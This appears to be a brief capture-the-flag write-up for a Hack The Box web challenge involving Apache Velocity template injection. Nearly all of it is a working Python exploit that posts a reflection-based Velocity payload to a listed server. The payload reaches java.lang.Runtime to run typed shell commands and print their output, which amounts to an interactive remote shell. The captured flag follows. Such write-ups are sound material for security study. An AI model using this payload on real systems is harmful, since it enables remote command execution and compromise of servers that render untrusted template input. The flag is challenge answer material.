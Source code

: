 ```yaml
---
created: 2024-07-16T23:56
updated: 2024-08-04T19:29
solves: 339
points: 925
---
```


## Analysis

```java
org.apache.velocity.Template t = new org.apache.velocity.Template();
```

Apparently the server passes our input into the velocity template directly.

However a lot of the online payloads doesn't work.

This is the final payload.

```python
import requests
import re
while True:
    payload = f"""
#set($x='')
#set($rt=$x.class.forName('java.lang.Runtime'))
#set($chr=$x.class.forName('java.lang.Character'))
#set($str=$x.class.forName('java.lang.String'))
#set($ex=$rt.getRuntime().exec('{input("$ ")}'))
$ex.waitFor()
#set($out=$ex.getInputStream().readAllBytes())
#foreach($i in $out)$str.valueOf($chr.toChars($i))#end
"""
    print(re.search('<h2 class="fire">([\s\S]+)</h2>', requests.post("http://94.237.51.8:40899/", data={"text": payload}).text).group(1))

# HTB{f13ry_t3mpl4t35_fr0m_th3_d3pth5!!_0e15f3d341a7529fb80ce21794b76383}
```
